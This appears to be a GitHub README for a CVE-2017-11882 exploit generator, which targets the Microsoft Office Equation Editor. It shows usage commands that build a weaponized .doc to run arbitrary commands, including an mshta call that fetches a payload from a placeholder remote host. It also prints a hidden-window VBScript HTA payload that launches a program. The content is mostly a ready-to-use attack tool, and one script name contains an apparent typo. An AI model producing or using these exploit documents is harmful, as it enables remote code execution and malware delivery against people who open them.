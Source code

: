 # CVE-2017-11882
## Reference
https://github.com/embedi/CVE-2017-11882
https://github.com/unamer/CVE-2017-11882

# Usage 
- cmd 
```
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```
- mshta 
```
python Command_CVE-2017011882.py -c "mshta http://xxx.com/123" -o test.doc
```
123
```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```



